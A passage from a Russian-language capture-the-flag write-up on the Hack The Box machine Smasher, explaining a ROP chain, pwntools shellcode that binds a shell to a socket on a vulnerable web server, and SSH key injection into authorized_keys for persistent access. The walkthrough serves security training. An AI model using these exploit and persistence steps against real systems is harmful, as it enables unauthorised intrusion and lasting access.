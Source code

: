 Эти четыре строки создают цепочку ROP: поиск секции `.bss` и вызов функции `read` с нужными аргументами.

```python
r.sendline(asm(shellcraft.dupsh(4)))
```

Здесь можно поистине удивиться, на что способен pwntools: за одну строку «на лету» он нагенерил ассемблерный шелл-код со следующим содержимым.

[![pwntools-shellcraft.png](/assets/images/pwn-kingdom/smasher/pwntools-shellcraft.png)](/assets/images/pwn-kingdom/smasher/pwntools-shellcraft.png)
{:.center-image}

В нашем случае это код для Linux x64 — версия и разрядность ОС берутся из инициализации контекста.

Метод [dupsh](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.dupsh) генерит код, который спавнит шелл и перенаправляет все стандартные потоки в сетевой сокет. Нам нужен сокет со значением дескриптора `4`: такой номер присваивался новому открытому соединению с клиентом (переменная `connfd`, [строка 433](https://github.com/snovvcrash/xakepru/blob/master/pwn-kingdom/4-htb-smasher/tiny/tiny.c#L433)) при локальном анализе исполняемого файла. Это логично, ведь значения `0-3` уже заняты (`0`, `1` и `2` — стандартные потоки, `3` — дескриптор родителя), поэтому процесс форка получает первый незанятый ID — четверка.

[![tiny-exploit.png](/assets/images/pwn-kingdom/smasher/tiny-exploit.png)](/assets/images/pwn-kingdom/smasher/tiny-exploit.png)
{:.center-image}

Отлично, мы получили сессию пользователя `www`. Интересный момент: ROP-гаджета `pop rsi; ret` в «чистом виде» в бинаре не оказалось, поэтому умный pwntools использовал цепочку `pop rsi; pop r15; ret` и заполнил регистр R15 «мусорным» значением `iaaajaaa`.

Эксплоит, для которого ропчейн прописан в хардкоде, можно [найти](https://github.com/snovvcrash/xakepru/blob/master/pwn-kingdom/4-htb-smasher/tiny/tiny-exploit-manually.py) в репозитории.

# От грубого шелла до SSH — порт 22

Чтобы не мучиться с неповоротливым шеллом интерактивной оболочки pwntools, получим доступ к машине по SSH — с помощью инжекта своего открытого ключа. Но сперва убедимся, что аутентификация по ключу для данного пользователя разрешена.

```
root@kali:~# ssh -vvv www@10.10.10.89 2>&1 | grep 'Authentications that can continue:'
www@10.10.10.89's password: debug1: Authentications that can continue: publickey,password
```

Следом сгенерируем пару ключей с помощью OpenSSL и дропнем открытый ключ в файл `/home/www/.ssh/authorized_keys`.

```
root@kali:~# ssh-keygen -f user_www
root@kali:~# cat user_www.pub
<СОДЕРЖИМОЕ_ОТКРЫТОГО_КЛЮЧА>
root@kali:~# ./tiny-exploit.py
$ cd /home/www
$ mkdir .ssh
$ echo '<СОДЕРЖИМОЕ_ОТКРЫТОГО_КЛЮЧА>' > .ssh/authorized_keys
```
